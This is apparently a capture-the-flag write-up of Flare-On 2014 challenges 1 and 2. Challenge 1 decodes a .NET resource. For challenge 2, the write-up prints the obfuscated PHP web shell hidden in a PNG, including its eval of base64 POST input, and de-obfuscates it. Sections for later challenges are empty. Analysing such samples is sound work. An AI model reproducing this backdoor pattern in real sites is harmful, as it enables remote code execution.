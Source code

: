 # Flare-On 1 (2014)

## Sources

You can download the relevant files on this page: <https://github.com/fareedfauzi/Flare-On-Challenges/tree/master/Challenges/2014/Flare-on%201>.

### Challenge 01

Hashes of the archive (`C1.zip`) containing the files of the challenge:

Hash | Value
-|-
MD5 | 7094c69959f626f8078145ab75abbbd0
SHA1 | 0e5895e65fe0f50275047bfb033ed272728ad4eb
SHA256 | 038e9ad33a0529337b0b0c30e37ae92787d0f0fb784e4c41cf2f36b020a5542e

Once you extract from the *Win32 Cabinet Self-Extractor* (`C1.exe`), you'll find yourself with a Windows executable written in `.NET`.

Opening the binary with `dnSpy`, I noticed the following function:

```cs
private void btnDecode_Click(object sender, EventArgs e)
{
    this.pbRoge.Image = Resources.bob_roge;
    byte[] dat_secret = Resources.dat_secret;
    string text = "";
    foreach (byte b in dat_secret)
    {
        text += (char)((b >> 4 | ((int)b << 4 & 240)) ^ 41);
    }
    text += "\0";
    string text2 = "";
    for (int j = 0; j < text.Length; j += 2)
    {
        text2 += text[j + 1];
        text2 += text[j];
    }
    string text3 = "";
    for (int k = 0; k < text2.Length; k++)
    {
        char c = text2[k];
        text3 += (char)((byte)text2[k] ^ 102);
    }
    this.lbl_title.Text = text3;
}
```

As you may infer from this code, the function is applied to a button of a GUI program. When the user clicks on the button, this function `btnDecode_Click` is executed.

The most interesting part of the code is the following:

```cs
byte[] dat_secret = Resources.dat_secret;
string text = "";

foreach (byte b in dat_secret)
{
    text += (char)((b >> 4 | ((int)b << 4 & 240)) ^ 41);
}
```

It seems to retrieve a resource (from the `.rsrc` section) and then performs some bitwise operations on each byte of the resource data.

There are two ways to get the flag for this challenge:

- debugging the application (put a breakpoint at the beginning of the function `btnDecode_Click` and start the application)
- writing a small script to decode the value

I used the first approach, since it's easier and faster. The flag should be the following: `3rmahg3rd.b0b.d0ge@flare-on.com`.

However, I also wanted to test whether I could decode it manually. To retrieve the resource, you can use `dnSpy`:

- go to `Resources`
- right-click on *rev_challenge_1.dat_secret.encode*
- select *Show in Hex editor*
- *Ctr-C* to copy the hex bytes

```py
encoded = "A1B5448414E4A1B5D470B491B470D491E4C496F45484B5C440647470A46444"
encoded_bytes = bytearray.fromhex(encoded)

decoded_list = [chr((b >> 4 | (b << 4 & 240)) ^ 41) for b in encoded_bytes]
print("".join(decoded_list))
# 3rmahg3rd.b0b.d0ge@flare-on.com
```

I successfully managed to decode it manually!

### Challenge 02

Hashes of the archive (`C2.zip`) containing the files of the challenge:

Hash | Value
-|-
MD5 | 74ea6bd7a2e19cfd6096614d7d9e8e0f
SHA1 | 32b08a345a4246526e8ecd73cacb8ceef3c32e9e
SHA256 | 407c11647b9c58f41daba5a6b85f04ac2a0c31bab9eefe3362c2805329a59bd1

I had some problems extracting the files from the archive `C2.zip`, due the `unzip` not supporting the compression algorithm *PK 5.1*. In the end, I managed to extract it this way:

```bash
# password: malware
7x x C2.zip -ochall_02
```

Inside, there are two files:

```txt
.
├── home.html
└── img
    └── flare-on.png
```

While the HTML file doesn't contain anything useful, the image `flare-on.png` contains some PHP code, while still being a valid image!

If you were to run `strings` on the latter, you would find this code:

```php
<?php

$terms = array("M", "Z", "]", "p", "\\", "w", "f", "1", "v", "<", "a", "Q", "z", " ", "s", "m", "+", "E", "D", "g", "W", "\"", "q", "y", "T", "V", "n", "S", "X", ")", "9", "C", "P", "r", "&", "\'", "!", "x", "G", ":", "2", "~", "O", "h", "u", "U", "@", ";", "H", "3", "F", "6", "b", "L", ">", "^", ",", ".", "l", "$", "d", "`", "%", "N", "*", "[", "0", "}", "J", "-", "5", "_", "A", "=", "{", "k", "o", "7", "#", "i", "I", "Y", "(", "j", "/", "?", "K", "c", "B", "t", "R", "4", "8", "e", "|");

$order = array(59, 71, 73, 13, 35, 10, 20, 81, 76, 10, 28, 63, 12, 1, 28, 11, 76, 68, 50, 30, 11, 24, 7, 63, 45, 20, 23, 68, 87, 42, 24, 60, 87, 63, 18, 58, 87, 63, 18, 58, 87, 63, 83, 43, 87, 93, 18, 90, 38, 28, 18, 19, 66, 28, 18, 17, 37, 63, 58, 37, 91, 63, 83, 43, 87, 42, 24, 60, 87, 93, 18, 87, 66, 28, 48, 19, 66, 63, 50, 37, 91, 63, 17, 1, 87, 93, 18, 45, 66, 28, 48, 19, 40, 11, 25, 5, 70, 63, 7, 37, 91, 63, 12, 1, 87, 93, 18, 81, 37, 28, 48, 19, 12, 63, 25, 37, 91, 63, 83, 63, 87, 93, 18, 87, 23, 28, 18, 75, 49, 28, 48, 19, 49, 0, 50, 37, 91, 63, 18, 50, 87, 42, 18, 90, 87, 93, 18, 81, 40, 28, 48, 19, 40, 11, 7, 5, 70, 63, 7, 37, 91, 63, 12, 68, 87, 93, 18, 81, 7, 28, 48, 19, 66, 63, 50, 5, 40, 63, 25, 37, 91, 63, 24, 63, 87, 63, 12, 68, 87, 0, 24, 17, 37, 28, 18, 17, 37, 0, 50, 5, 40, 42, 50, 5, 49, 42, 25, 5, 91, 63, 50, 5, 70, 42, 25, 37, 91, 63, 75, 1, 87, 93, 18, 1, 17, 80, 58, 66, 3, 86, 27, 88, 77, 80, 38, 25, 40, 81, 20, 5, 76, 81, 15, 50, 12, 1, 24, 81, 66, 28, 40, 90, 58, 81, 40, 30, 75, 1, 27, 19, 75, 28, 7, 88, 32, 45, 7, 90, 52, 80, 58, 5, 70, 63, 7, 5, 66, 42, 25, 37, 91, 0, 12, 50, 87, 63, 83, 43, 87, 93, 18, 90, 38, 28, 48, 19, 7, 63, 50, 5, 37, 0, 24, 1, 87, 0, 24, 72, 66, 28, 48, 19, 40, 0, 25, 5, 37, 0, 24, 1, 87, 93, 18, 11, 66, 28, 18, 87, 70, 28, 48, 19, 7, 63, 50, 5, 37, 0, 18, 1, 87, 42, 24, 60, 87, 0, 24, 17, 91, 28, 18, 75, 49, 28, 18, 45, 12, 28, 48, 19, 40, 0, 7, 5, 37, 0, 24, 90, 87, 93, 18, 81, 37, 28, 48, 19, 49, 0, 50, 5, 40, 63, 25, 5, 91, 63, 50, 5, 37, 0, 18, 68, 87, 93, 18, 1, 18, 28, 48, 19, 40, 0, 25, 5, 37, 0, 24, 90, 87, 0, 24, 72, 37, 28, 48, 19, 66, 63, 50, 5, 40, 63, 25, 37, 91, 63, 24, 63, 87, 63, 12, 68, 87, 0, 24, 17, 37, 28, 48, 19, 40, 90, 25, 37, 91, 63, 18, 90, 87, 93, 18, 90, 38, 28, 18, 19, 66, 28, 18, 75, 70, 28, 48, 19, 40, 90, 58, 37, 91, 63, 75, 11, 79, 28, 27, 75, 3, 42, 23, 88, 30, 35, 47, 59, 71, 71, 73, 35, 68, 38, 63, 8, 1, 38, 45, 30, 81, 15, 50, 12, 1, 24, 81, 66, 28, 40, 90, 58, 81, 40, 30, 75, 1, 27, 19, 75, 28, 23, 75, 77, 1, 28, 1, 43, 52, 31, 19, 75, 81, 40, 30, 75, 1, 27, 75, 77, 35, 47, 59, 71, 71, 71, 73, 21, 4, 37, 51, 40, 4, 7, 91, 7, 4, 37, 77, 49, 4, 7, 91, 70, 4, 37, 49, 51, 4, 51, 91, 4, 37, 70, 6, 4, 7, 91, 91, 4, 37, 51, 70, 4, 7, 91, 49, 4, 37, 51, 6, 4, 7, 91, 91, 4, 37, 51, 70, 21, 47, 93, 8, 10, 58, 82, 59, 71, 71, 71, 82, 59, 71, 71, 29, 29, 47);

$do_me = "";
for ($i = 0; $i < count($order); $i++)
{
    $do_me = $do_me.$terms[$order[$i]];
}

eval($do_me);
?>
```

To de-obfuscate the code, I simply replaced the `eval` function with an `echo`:

```php
$_ = 'aWYoaXNzZXQoJF9QT1NUWyJcOTdcNDlcNDlcNjhceDRGXDg0XDExNlx4NjhcOTdceDc0XHg0NFx4NEZceDU0XHg2QVw5N1x4NzZceDYxXHgzNVx4NjNceDcyXDk3XHg3MFx4NDFcODRceDY2XHg2Q1w5N1x4NzJceDY1XHg0NFw2NVx4NTNcNzJcMTExXDExMFw2OFw3OVw4NFw5OVx4NkZceDZEIl0pKSB7IGV2YWwoYmFzZTY0X2RlY29kZSgkX1BPU1RbIlw5N1w0OVx4MzFcNjhceDRGXHg1NFwxMTZcMTA0XHg2MVwxMTZceDQ0XDc5XHg1NFwxMDZcOTdcMTE4XDk3XDUzXHg2M1wxMTRceDYxXHg3MFw2NVw4NFwxMDJceDZDXHg2MVwxMTRcMTAxXHg0NFw2NVx4NTNcNzJcMTExXHg2RVx4NDRceDRGXDg0XDk5XHg2Rlx4NkQiXSkpOyB9';
$__ = 'JGNvZGU9YmFzZTY0X2RlY29kZSgkXyk7ZXZhbCgkY29kZSk7';
$___ = "\x62\141\x73\145\x36\64\x5f\144\x65\143\x6f\144\x65";

eval($___($__));
```

This one is a little more complicated. First, the variable `$___` is the string `base64_decode` encoded to hex/decimal notation.

Once again, replacing `eval` with `echo` reveals the next block of code:

```php
$code = base64_decode($_);
eval($code);
```

Once more:

```php
if(isset($_POST["\97\49\49\68\x4F\84\116\x68\97\x74\x44\x4F\x54\x6A\97\x76\x61\x35\x63\x72\97\x70\x41\84\x66\x6C\97\x72\x65\x44\65\x53\72\111\110\68\79\84\99\x6F\x6D"]))
{
    eval(base64_decode($_POST["\97\49\x31\68\x4F\x54\116\104\x61\116\x44\79\x54\106\97\118\97\53\x63\114\x61\x70\65\84\102\x6C\x61\114\101\x44\65\x53\72\111\x6E\x44\x4F\84\99\x6F\x6D"]));
}
```

To decode the two strings, I used some python code:

```py
l = [97, 49, 49, 68, 0x4F, 84, 116, 0x68, 97, 0x74, 0x44, 0x4F, 0x54, 0x6A, 97, 0x76, 0x61, 0x35, 0x63, 0x72, 97, 0x70, 0x41, 84, 0x66, 0x6C, 97, 0x72, 0x65, 0x44, 65, 0x53, 72, 111, 110, 68, 79, 84, 99, 0x6F, 0x6D]
"".join([chr(x) for x in l])
# a11DOTthatDOTjava5crapATflareDASHonDOTcom

m = [97, 49, 0x31, 68, 0x4F, 0x54, 116, 104, 0x61, 116, 0x44, 79, 0x54, 106, 97, 118, 97, 53, 0x63, 114, 0x61, 0x70, 65, 84, 102, 0x6C, 0x61, 114, 101, 0x44, 65, 0x53, 72, 111, 0x6E, 0x44, 0x4F, 84, 99, 0x6F, 0x6D]
"".join([chr(x) for x in m])
# a11DOTthatDOTjava5crapATflareDASHonDOTcom
```

In both cases, the resulting decoded string is *a11DOTthatDOTjava5crapATflareDASHonDOTcom*, so the flag should be the following:

```txt
a11.that.java5crap@flare-on.com
```

### Challenge 03

### Challenge 04

### Challenge 05

### Challenge 06

### Challenge 07
